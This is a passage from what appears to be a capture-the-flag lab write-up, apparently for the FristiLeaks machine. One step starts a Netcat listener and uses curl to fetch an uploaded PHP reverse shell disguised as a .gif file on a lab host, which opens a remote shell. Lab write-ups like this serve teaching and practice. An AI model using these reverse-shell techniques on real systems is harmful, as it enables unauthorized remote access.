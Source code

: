 ![writeup.exploitation.steps.2.1](./screenshot03.png)  

3\. We start a Netcat listener, issue a request for this file using `curl` and are presented with the initial shell:  
``` {.python .numberLines}
nc -nlvp 443
curl -v "http://192.168.92.133/fristi/uploads/rs.php.gif"

```

![writeup.exploitation.steps.3.1](./screenshot04.png)  

![writeup.exploitation.steps.3.2](./screenshot05.png)  
